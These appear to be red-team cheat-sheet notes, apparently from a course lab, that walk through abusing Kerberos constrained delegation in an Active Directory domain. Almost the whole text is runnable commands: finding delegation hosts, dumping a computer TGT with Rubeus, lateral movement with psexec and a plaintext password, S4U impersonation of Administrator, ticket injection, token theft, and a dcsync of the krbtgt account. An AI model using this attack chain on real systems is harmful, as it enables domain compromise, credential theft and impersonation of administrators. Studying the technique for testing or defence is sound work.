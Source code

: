 
##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=DUB-WEB-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```


> Couple options here: 

1.  Perform the S4U abuse to obtain a usable service ticket using service name substitution

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:time/lon-dc-1.contoso.com /altservice:cifs /impersonateuser:Administrator /nowrap /ticket:
```

> Use the FQDN for the services to avoid oopsies

2. Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value,

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:ldap/lon-dc-1.contoso.com /impersonateuser:Administrator /nowrap /ticket:
```

---

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync CONTOSO.COM CONTOSO\krbtgt
```